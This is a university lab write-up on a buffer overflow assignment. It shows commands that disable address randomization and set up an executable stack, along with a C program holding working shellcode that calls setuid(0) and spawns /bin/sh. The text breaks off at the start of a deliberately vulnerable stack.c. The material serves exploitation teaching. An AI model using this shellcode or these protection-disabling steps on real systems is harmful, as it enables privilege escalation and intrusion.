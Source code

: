# Assignment 1 - Buffer Overflow

## Initial setup
```
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo apt-get install execstack
```

## Shellcode Example
call_shellcode.c
```
/* call_shellcode.c */

/* A program that executes a shellcode for launching a shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
	"\x6a\x17"			/* push $0x17 */
	"\x58"				  /* pop %eax */
	"\x31\xdb"			/* xor %ebx, %ebx */
	"\xcd\x80"			/* int $0x80 */
	"\x31\xc0"			/* Line 1: xorl %eax,%eax */
	"\x50"				  /* Line 2: pushl %eax */
	"\x68""//sh"		/* Line 3: pushl $0x68732f2f */
	"\x68""/bin"		/* Line 4: pushl $0x6e69622f */
	"\x89\xe3"			/* Line 5: movl %esp,%ebx */
	"\x50"				  /* Line 6: pushl %eax */
	"\x53"				  /* Line 7: pushl %ebx */
	"\x89\xe1"			/* Line 8: movl %esp,%ecx */
	"\x99"				  /* Line 9: cdql */
	"\xb0\x0b"			/* Line 10: movb $0x0b,%al */
	"\xcd\x80"			/* Line 11: int $0x80 */
;

int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}
```
```
$ gcc -o call_shellcode call_shellcode.c
$ execstack -s call_shellcode
$ ./call_shellcode
```

## Vulnerable program
stack.c
```
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
```